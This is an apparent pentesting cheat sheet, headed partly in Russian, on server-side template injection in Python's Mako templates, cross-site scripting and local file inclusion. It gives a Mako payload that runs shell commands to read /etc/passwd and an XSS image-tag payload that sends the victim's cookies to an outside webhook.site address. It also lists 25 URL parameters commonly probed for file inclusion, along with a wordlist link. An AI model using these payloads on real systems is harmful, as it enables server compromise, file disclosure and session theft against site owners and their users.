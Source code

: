 # SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters

?cat={payload}

?dir={payload}

?action={payload}

?board={payload}

?date={payload}

?detail={payload}

?file={payload}

?download={payload}

?path={payload}

?folder={payload}

?prefix={payload}

?include={payload}

?page={payload}

?inc={payload}

?locate={payload}

?show={payload}

?doc={payload}

?site={payload}

?type={payload}

?view={payload}

?content={payload}

?document={payload}

?layout={payload}

?mod={payload}

?conf={payload}

##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI
